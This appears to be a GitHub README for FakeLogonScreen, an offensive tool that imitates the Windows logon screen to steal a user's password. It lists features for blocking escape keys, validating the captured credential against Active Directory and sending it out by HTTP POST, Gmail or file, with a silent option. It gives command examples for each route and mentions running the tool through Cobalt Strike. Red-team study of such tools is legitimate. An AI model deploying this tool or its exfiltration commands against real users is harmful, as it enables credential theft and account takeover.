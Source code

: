 # FakeLogonScreen
FakeLogonScreen is a utility to fake the Windows logon screen in order to obtain the user's password. The password entered is validated against the Active Directory or local machine to make sure it is correct and is then displayed to the console or saved to disk.

It can either be executed by simply running the .exe file, or using for example Cobalt Strike's `execute-assembly` command.

Binaries available from the [Releases](https://github.com/diegomardian/fakelogonscreen/releases) page.


Folders:
- / (root): Built against .NET Framework 4.5 which is installed by default in Windows 8, 8.1 and 10
- DOTNET35: Built against .NET Framework 3.5 which is installed by default in Windows 7

# Features
- Primary display shows a Windows 10 login screen while additional screens turn black
- If custom background is configured by the user, shows that background instead of the default one
- Validates entered password before closing the screen
- Username and passwords entered are outputted to console or stored in a file
- Blocks many shortkeys to prevent circumventing the screen
- Minimizes all existing windows to avoid other windows staying on top
- Send results through either http, gmail, or to a file

# How To Use
FakeLogonScreen accepts these parameters:
| Option | Description |
| ------ | ---------- |
| `http [url]` | Sends results to url as a json post request with the results contianed in "results" |
| `gmail [email] [password]` | Sends a email to the specified email (Note: You must enable less apps accesss [here](https://www.google.com/settings/security/lesssecureapps) |
| `file [filepath]` | writes results to the file specified |
 FakeLogonScreen normally will make a log.txt file but if you append `silent` to the end it will not.
## Http
You can create your own server or you can use [DuckyServer](), a pre built server.
## Exmaple using DuckyServer
`FakeLogonScreen.exe http http:/127.0.0.1/fake_login_screen silent`
## Gmail
To use Gmail make sure you go to [https://www.google.com/settings/security/lesssecureapps](https://www.google.com/settings/security/lesssecureapps) and enable "Allow less secure apps" for the account you will use.
## Example
`FakeLogonScreen.exe gmail testaccount@gmail.com testpassword silent`
## File
Just specify the file you would like FakeLogonScreen to write to.
## Example
`FakeLogonScreen.exe file C:\Users\test\passwords.txt`
